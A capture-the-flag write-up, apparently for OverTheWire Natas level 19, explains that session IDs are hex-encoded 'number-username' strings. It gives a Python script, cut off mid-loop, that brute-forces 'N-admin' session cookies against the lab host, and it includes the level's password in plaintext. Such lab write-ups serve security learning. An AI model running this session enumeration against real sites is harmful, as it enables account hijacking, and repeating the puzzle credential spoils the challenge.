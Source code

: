 I saw a prompt on the page saying that the source code for this time is the same as the previous level, but the `PHPSESSID` are no longer sequential. So I used BurpSuite to check the value of this variable.

![PHPSESSID](./pictures/level19/phpsessid.png)

This string may have been encoded. Therefore, I tried various decoding methods on this string. Finally, I found that it was hexadecimal encoding. As shown in the image below, I found that it was in the format of `PHPSESSID-username`.

![decode result](./pictures/level19/decode-result.png)

Therefore, I can brute force the `PHPSESSID` based on it. I wrote a python script to perform the attack.

```python
import requests
from requests.auth import HTTPBasicAuth
import binascii

username = "natas19"
password = "tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr"
url = "http://natas19.natas.labs.overthewire.org/"

begin = input("Input the begin id: ")
end = input("input the end id: ")
for i in range(int(begin), int(end)):
    session_id = f"{i}-admin"
    hex_str = binascii.hexlify(session_id.encode()).decode()

    cookies = {"PHPSESSID": hex_str}
    response = requests.get(
        url, auth=HTTPBasicAuth(username, password), cookies=cookies
    )

```